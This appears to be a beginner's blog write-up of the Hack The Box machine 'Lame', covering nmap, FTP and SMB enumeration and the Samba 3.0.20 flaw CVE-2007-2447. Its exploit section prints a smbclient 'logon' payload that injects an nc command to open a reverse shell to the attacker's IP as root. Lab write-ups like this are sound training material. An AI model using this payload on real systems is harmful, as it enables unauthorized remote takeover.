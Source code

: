 ```yaml
---
layout: post
title: Lame
date: 2024-07-17 10:00:00 -0400
---
```

![machine card](/assets/lame/Lame.png)

Lame box is an easy challenge suitable for beginners. It involves discovering open ports like FTP and SMB using Nmap. A vulnerability in Samba 3.0.20-Debian allows for remote command execution, making it a straightforward introduction to penetration testing.
# Recon

## nmap

Discovered some open ports.
![[Lame_image_1.png]]
Scan ports 21 (FTP), 22 (SSH), 139 (NetBIOS), 445 (SMB), and 3632, perform version detection and default script scanning.
![[Lame_image_2.png]]
## FTP - TCP 21
Anonymous login but empty.
![[Pasted image 20240623021419.png]]
## SMB - TCP 445
One accessible share.
![[Lame_image_3.png]]
Nothing Important
![[Pasted image 20240623021705.png]]

# Exploit
Samba 3.0.20-Debian is vulnerable to RCE.
CVE: https://nvd.nist.gov/vuln/detail/CVE-2007-2447

Connect to the smb share:
```
smbclient //10.129.101.202/tmp
```
Enter command to pop a shell:
```
logon "/=`nc 10.10.14.151 1337 -e /bin/sh`"
```

Root
![[tmp1719122533136_Lame_image_1.png]]


